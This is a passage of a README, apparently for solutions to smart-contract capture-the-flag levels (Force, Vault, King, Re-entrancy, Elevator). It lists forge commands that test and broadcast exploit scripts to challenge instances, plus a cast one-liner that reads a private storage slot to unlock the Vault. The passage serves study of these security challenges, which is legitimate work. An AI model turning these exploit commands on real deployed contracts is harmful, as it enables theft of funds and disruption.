 **Exploit on chain**
```sh
forge script ForceExploitScript -vvvv --private-key $PRIVATE_KEY --fork-url $RPC_URL --broadcast --sig "run(address)" $INSTANCE_ADDRESS
```

## 8. Vault
[Challenge & Exploit codes](Vault)

**Test**
```sh
forge test --match-contract VaultExploitTest -vvvv
```

**Exploit on chain**
```sh
forge script VaultExploitScript -vvvv --private-key $PRIVATE_KEY --fork-url $RPC_URL --broadcast --sig "run(address)" $INSTANCE_ADDRESS
```

`cast` command-only one-liner:
```sh
cast send --private-key $PRIVATE_KEY $INSTANCE_ADDRESS "unlock(bytes32)" $(cast storage  $INSTANCE_ADDRESS 1)
```

## 9. King
[Challenge & Exploit codes](King)

**Test**
```sh
forge test --match-contract KingExploitTest -vvvv
```

**Exploit on chain**
```sh
forge script KingExploitScript -vvvv --private-key $PRIVATE_KEY --fork-url $RPC_URL --broadcast --sig "run(address)" $INSTANCE_ADDRESS
```

## 10. Re-entrancy
[Challenge & Exploit codes](Reentrance)

**Test**
```sh
forge test --match-contract ReentranceExploitTest -vvvv
```

**Exploit on chain**
```sh
forge script ReentranceExploitScript -vvvv --private-key $PRIVATE_KEY --fork-url $RPC_URL --broadcast --sig "run(address)" $INSTANCE_ADDRESS
```

## 11. Elevator
[Challenge & Exploit codes](Elevator)
